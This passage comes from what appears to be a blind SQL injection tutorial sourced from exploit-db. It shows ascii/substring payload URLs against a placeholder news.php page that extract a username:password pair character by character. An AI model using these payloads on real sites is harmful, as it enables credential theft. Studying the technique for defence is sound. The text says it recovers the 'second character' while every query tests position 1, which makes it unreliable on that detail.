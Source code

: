 ```none
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>107
```

We get FALSE, let try a lower number.

```none
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>104
```

We get TRUE, then let try a higher one.

```none
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>105
```

Finally, we get FALSE !!! We are done for the second character. We now found that the second character is char(105) and again using the ascii converter we can easily understand that char(105) is the letter "i".

That harder part of this methodology is the time you will need to retrieve the complete username or whatever the string you want to find.

**Source:** [exploit-db.com](https://www.exploit-db.com/raw/13045/)
